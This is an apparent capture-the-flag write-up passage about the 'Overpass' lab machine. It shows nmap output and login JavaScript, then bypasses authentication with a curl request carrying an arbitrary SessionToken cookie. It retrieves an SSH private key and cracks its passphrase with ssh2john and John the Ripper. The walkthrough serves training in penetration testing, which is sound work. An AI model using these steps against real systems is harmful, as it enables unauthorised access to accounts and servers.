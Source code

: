 ```
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
nmap only tells us that we have an ssh server and an http server, powered by golang.

Loading the admin page gives me a login screen, and on submitting a test username and password I can see that it made a call to /api/login.
After poking this a bit I rule out sqlinjection as an attack vector.

Submitting the login request didn't reload the page though, so now to read through javascript.
Page source tells me there is a /login.js file to investigate.
There is a nice little section about dealing with the login attempt:
```
async function login() {
 const usernameBox = document.querySelector("#username");
 const passwordBox = document.querySelector("#password");
 const loginStatus = document.querySelector("#loginStatus");
 loginStatus.textContent = ""
 const creds = { username: usernameBox.value, password: passwordBox.value }
 const response = await postData("/api/login", creds)
 const statusOrCookie = await response.text()
 if (statusOrCookie === "Incorrect credentials") {
 loginStatus.textContent = "Incorrect Credentials"
 passwordBox.value=""
 } else {
 Cookies.set("SessionToken",statusOrCookie)
 window.location = "/admin"
 }
}
```
Reading that, I can see that if the server returned with something other than "Incorrect Credentials", it sets a cookie and rediercts to the admin page. Hmm.. maybe it doesn't actually care what that cookie is! I try loading the admin page with a that "SessionToken" cookie set.
```
curl -L -b "SessionToken=letmein" $ip/admin/
```
Interesting - looks like the server doesn't actually care what's in that cookie, just that it exists!
This page loads up an ssh private key. I save it to a file.

## Attempting User Access
After moving the key into my VM's `~/.ssh/id_rsa` file and changing the permissions to 600 (`chmod 600 ~/.ssh/id_rsa`) I try logging in to the server through ssh.
```
root@4106f9d82986:~# ssh james@$ip
Enter passphrase for key '/root/.ssh/id_rsa':
```
Well, looks like there is a passphrase to deal with. No biggie - the admin webpage did mention cracking it. To JohnTheRipper!

## Cracking Passphrase
First we need to convert the id_rsa into a hash that john likes. There is a utility ssh2john that does this for us, but my vm didn't have that, so I grabbed the johntheripper repo from github.
```
git clone https://github.com/magnumripper/JohnTheRipper
```
Now I have the python script I need.
```
chmod 666 ~/.ssh/id_rsa
python JohnTheRipper/run/ssh2john.py ~/.ssh/id_rsa > id_rsa.hash
chmod 600 ~/.ssh/id_rsa
```
Now that we've got a nice hash to use, let's get cracking
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```